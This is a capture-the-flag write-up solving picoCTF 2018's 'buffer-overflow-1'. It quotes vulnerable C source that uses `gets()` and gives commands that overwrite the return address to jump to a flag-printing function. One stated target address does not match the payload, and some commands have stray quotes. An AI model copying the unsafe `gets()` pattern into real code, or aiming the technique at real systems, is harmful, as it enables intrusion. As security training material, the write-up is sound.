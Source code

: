 Okay now you're cooking! This time can you overflow the buffer and return to the flag function in this [program](https://2018shell.picoctf.com/static/64108e53cad29c810b4f6b214d183a8a/vuln)? You can find it in /problems/buffer-overflow-1_2_86cbe4de3cdc8986063c379e61f669ba on the shell server. [Source](https://2018shell.picoctf.com/static/64108e53cad29c810b4f6b214d183a8a/vuln.c)

# :uk: Solution :uk:
Opening the source code of the program we can see that the `win()` function will print our flag.

We can also see that in our `main()` function we execute `vuln()` function, which uses `gets()` native function, which is deprecated as it is vulnerable to overflow.

``` c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

We can see that the `BUFSIZE` constant is 32 bytes, everything apart from that will overflow our program.

Now to get the direction in memory for `win()`
`readelf -s vuln | grep win'
The `win()` address is `0x080485cb`.

To know the exact size of padding required for the overflow, we will use [De Bruij sequence](https://en.wikipedia.org/wiki/De_Bruijn_sequence).

`python3 -c "from pwn import *; print(cyclic(100).decode())" | ./vuln`

we will get printed the address where the overflow sent us, now we just have to do the reverse step to know exactly where in the De Bruijn sequence happened the overflow.

`python3 -c "from pwn import *; print(cyclic_find(0x6161616c))"`

This shows we need 44 bytes as padding, a character equals to a byte, so we will use `z` as padding.

![](https://i.imgur.com/5gnTfdT.png)

Our stack would look like this, moving downwards, we want to overflow until we get inside the return address and replace it with `0x0804865d`.

Now we just need to concatenate the address to the payload, in bytes.

`python3 -c "import struct; print('z'*44+struct.pack('<I', 0x080485cb).decode())" | ./vuln"`

Et voilà.
